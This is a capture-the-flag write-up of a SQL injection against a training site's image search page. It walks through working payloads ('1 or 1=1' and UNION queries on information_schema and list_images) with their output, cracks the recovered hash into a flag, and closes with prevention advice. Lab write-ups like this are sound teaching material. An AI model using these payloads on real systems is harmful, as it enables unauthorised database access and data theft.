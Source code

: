 # Description

Visiting the 'searchimg' page, it display a search field that search for members by id.

Trying a basic sql injection test, putting a single quite in the search field a submit.

We got an sql syntax error:
`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1`

Then trying `1 or 1=1` will gives all members in the database:

```
ID: 1 or 1=1 
First name: one
Surname : me

ID: 1 or 1=1 
First name: two
Surname : me

ID: 1 or 1=1 
First name: three
Surname : me

ID: 1 or 1=1 
First name: Flag
Surname : GetThe
```

# Attack

Now let's try to determine the SQL request 

As it seems from the last input the SQL request only retreive 2 columns so we will need to inject those columns with data from database.

Now let's look for all the databases names in the database using this sql injection.

    `0 UNION select table_name,column_name from information_schema.columns`

As you will see below we found an interesting database informations, `list_images` That contains a comment for each image I guess. It's catchy.


```
ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: list_images
Surname : id

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: list_images
Surname : url

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: list_images
Surname : title

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: list_images
Surname : comment
```

In this case the same query injection we performed before won't work. We need to use ascii character for table names.

Now we will try to see what all users has on the `Commnetaire` Column, It may be something interesting.

    `0 UNION select concat(id, url),concat(title, comment) from list_images`

```
ID: 0 UNION select concat(id, url),concat(title, comment) from list_images 
Title: NsaAn image about the NSA !
Url : 1https://fr.wikipedia.org/wiki/Programme_

ID: 0 UNION select concat(id, url),concat(title, comment) from list_images 
Title: 42 !There is a number..
Url : 2https://fr.wikipedia.org/wiki/Fichier:42

ID: 0 UNION select concat(id, url),concat(title, comment) from list_images 
Title: GoogleGoogle it !
Url : 3https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 0 UNION select concat(id, url),concat(title, comment) from list_images 
Title: EarthEarth!
Url : 4https://en.wikipedia.org/wiki/Earth#/med

ID: 0 UNION select concat(id, url),concat(title, comment) from list_images 
Title: Hack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 5borntosec.ddns.net/images.png

```
As you can see the last image Has this string result `Hack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`

Now decripting it with md5: 1928e8083cf461a51303633093573c46 : albatroz

albatroz (sha256): f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

# Prevent
To prevent SQL injection vulnerabilities, follow these measures:

- Use prepared statements with parameterized queries to separate SQL code from user input.
- Implement input validation and sanitize user inputs to prevent malicious input.
- Employ a Web Application Firewall (WAF) to detect and block malicious SQL injection attempts.
